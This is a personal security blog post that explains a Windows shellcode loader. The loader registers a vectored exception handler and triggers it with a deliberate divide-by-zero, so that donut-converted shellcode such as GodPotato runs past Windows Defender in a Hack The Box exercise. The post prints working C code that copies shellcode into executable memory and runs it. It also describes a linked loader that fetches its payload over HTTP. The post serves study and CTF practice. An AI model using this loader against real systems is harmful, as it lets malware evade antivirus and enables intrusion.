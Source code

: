 ```yaml
---
title: 1/0 = reverse shell ??
description: Deep dive into a unique shellcode loading technique
date: 2025-01-10 12:00:00 +0000
categories:
  - Windows
  - Programming
tags:
  - Windows
  - Shellcode
image: assets/img/visual_studio.png
---
```

In this blog post I'll explain how to load your shellcode using a really neat technique abusing VectorExceptions, a windows way of catching exceptions.

## Context
For the past few weeks I've been trying to finish my first htb fortress.
After gaining access to a windows machine, which had SeImpersonate so it was a quick win, I tried to use godpotato.exe to escalate.
And then everything to shambles. I spent a lot of time trying to get godpotato on the box and it kept getting deleted by windows defender.
Commonly used techniques to bypass AV include converting your exe to raw assembly (the shellcode) and running it through another binary (the loader).
Since I don't have the skills to create a shellcode from a binary, I used [donut](https://github.com/TheWover/donut) which works great for now !
Now I only had to create my shellcode loader :)

## VirtualAlloc ?
I decided that I wanted to create my own shellcode loader, which I did using visual studio 2022. I first used VirtualAlloc like absolutely every shellcode loader does on this planet. It's really straightforward, all you do is create executable memory, put your shellcode inside, and jump to it. I wanted to get more creative so I searched for more unique ways and I found a really funny one, vector excpetions. What I mean by funny is that the code that triggers the shellcode is the following :

```C
	int a = 1;
	int b = 0;
	int result = a / b;
```

Yes, it's the actual code in my shellcode loader ^^.
I know I know it sounds confusing at first, but don't worry it will all come together.
When your program reaches this, it will raise an exception and will iterate through a list of "vectored exception handlers", which is a fancy word for functions that will be called, one after the other before one of them can solve the exception. All we need to do is create an ExceptionHandler and register it so it will be called when an error occurs. I could go on and explain step by step but this snippet will explain it better than I :

```C
LONG WINAPI ExceptionHandler(PEXCEPTION_POINTERS pExceptionInfo) {
	// Check if it's a divide by zero exception
	if (pExceptionInfo->ExceptionRecord->ExceptionCode == EXCEPTION_INT_DIVIDE_BY_ZERO) {
		printf("[+] Exception caught, running shellcode ...\n");
		// Just in case
		if (g_shellcode == NULL || g_shellcodeSize == 0) {
			printf("[X] Shellcode error :(\n");
			return EXCEPTION_CONTINUE_SEARCH;  // Keep going to not make everything crash if shellcode is invalid
		}
		// VirtualAlloc shellcode as usual
		void* execMem = VirtualAlloc(NULL, g_shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
		if (execMem == NULL) {
			printf("[X] VirtualAlloc error (huh ?)\n");
			return EXCEPTION_CONTINUE_SEARCH;  // Keep going to not make everything crash if shellcode is invalid
		}
		memcpy(execMem, g_shellcode, g_shellcodeSize);
		((void(*)())execMem)();  // Telephone meeeee

		VirtualFree(execMem, 0, MEM_RELEASE);

		return EXCEPTION_EXECUTE_HANDLER;  // Not make an infinite loop
	}
	// Not my fault
	return EXCEPTION_CONTINUE_SEARCH;
}
```

As you can see, this will trigger only if an int divide by zero exception is raised.
I could've done this with other types of exceptions but triggering a shellcode when dividing by zero was just better ^^.

If you paid attention you realise that we need to register our ExceptionHandler, which is done like this :

```C
	if (AddVectoredExceptionHandler(1, ExceptionHandler) == NULL) {
		printf("[X] Couldn't add an Exception Handler sadly\n");
		return;
	}
```

Reading the [docs](https://learn.microsoft.com/en-us/windows/win32/api/errhandlingapi/nf-errhandlingapi-addvectoredexceptionhandler), we see that the first argument just needs to be non zero so that our ExceptionHandler will be called first.

## Done :)
Then you can just run the code and it will trigger you shellcode ! 
This technique is still recent, and I need to give credit to [this blog post](https://securityintelligence.com/x-force/using-veh-for-defense-evasion-process-injection/) for explaining the inner workings of windows Exceptions.

It gave me motivation to code my own shellcode loader, which you can checkout [here](https://github.com/0xtensho/ExtremeShellcode). 
It's useful for ctf's as it gets the shellcode through http before executing it, allowing you to upload only the loader. 
There are tons of other ways to run a shellcode, but of course the best way is the way that is still unknown by windows defender.
